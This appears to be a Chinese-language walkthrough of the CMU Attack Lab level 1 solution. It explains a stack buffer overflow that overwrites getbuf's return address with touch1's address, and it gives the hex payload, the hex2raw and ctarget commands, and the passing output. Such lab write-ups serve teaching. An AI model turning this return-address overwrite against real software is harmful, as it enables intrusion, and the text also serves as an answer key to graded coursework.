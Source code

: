此地址值的确为调用者 `test()` 中紧跟在 `call <getbuf>` 后的下一条指令的地址：

```nasm
(gdb) disassemble test 
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    rsp,0x8
   0x000000000040196c <+4>:     mov    eax,0x0
   0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    edx,eax
; ...
```

故只需将 `touch1()` 的地址 `0x00000000004017c0` 植入始于 `&buf[40]` 的 8 字节，逻辑上相当于在 C 代码中植入以下赋值语句：

```c
buf[40] = 0xc0;
buf[41] = 0x17;
buf[42] = 0x40;
buf[43] = buf[44] = buf[45] = buf[46] = buf[47] = 0x00;
```

具体步骤：

1. 创建含有以下内容（前 40 个字符相对随意，避开 `0x0a` 即 `\n` 即可）的 `exploit.txt` 文件：

   ```c
   /* buf[00,10) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[10,20) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[20,30) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[30,40) */ 30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* address of touch1() */
   ```

1. 利用 `hex2raw` 将上述文件转化为字符串：

   ```shell
   $ ./hex2raw < exploit.txt > exploit-raw.txt
   ```

1. 利用 *管道* 将 *`hex2raw` 的输出* 绑定到 *`ctarget` 的输入*：

   ```shell
   $ ./ctarget -q -i exploit-raw.txt
   ```

1. 后两步可合并为

   ```shell
   $ cat exploit.txt | ./hex2raw | ./ctarget -q
   ```

最终得以下输出
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 00 
```
